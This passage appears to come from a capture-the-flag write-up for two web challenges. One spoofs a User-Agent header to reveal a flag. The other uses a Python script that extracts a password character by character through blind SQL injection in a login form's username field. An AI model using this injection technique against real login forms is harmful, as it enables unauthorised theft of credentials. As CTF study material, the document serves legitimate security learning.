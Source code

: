 ```
I heard that only the right device can view the secret.

http://159.65.13.76:1337/
```

Viewing page source shows that the secret agent is `eevee` (you little monster).

```bash
http GET http://159.65.13.76:1337/  User-Agent:"eevee"
```

**==>** `HCMUS-CTF{+he_4g3nt_Izzz_eevoolution0123456}` **<==**

### Blind SQL (200pts)

```
Hmm, in the last problem I created an authentication web but get passed by hackers, how????

In this problem there will be no authentication hahaha, no one can get my beloved treasure anymore.

http://159.65.13.76:1340/
```

To get the case-insensitive version of the password:

```python
import requests
from bs4 import BeautifulSoup
import string
from tqdm import tqdm

final_str = ''

alphabet = list(string.printable)
for x, y in [('%', '\%'), ('_', '\_'), ('{', '\{')]:
    alphabet = [(y if k == x else k) for k in alphabet]

while True:
    for x in alphabet[::-1]:
        cur_str = final_str + x
        req = f"admin' AND 1=(SELECT 1 FROM account WHERE password LIKE '{cur_str}%') -- '"
        r = requests.post('http://159.65.13.76:1340', data={'username': req})

        soup = BeautifulSoup(r.text, 'html.parser')
        if len(soup.find_all('h1', {'class': 'error-login'})) == 0:
            final_str = cur_str
            print(final_str)
            break
```

which results in `sh0uld_i_us3_nosql_n3xt_t1m3_0x3f3f3f`.

Common sense tells you where to put the cases...

Or if you are free...
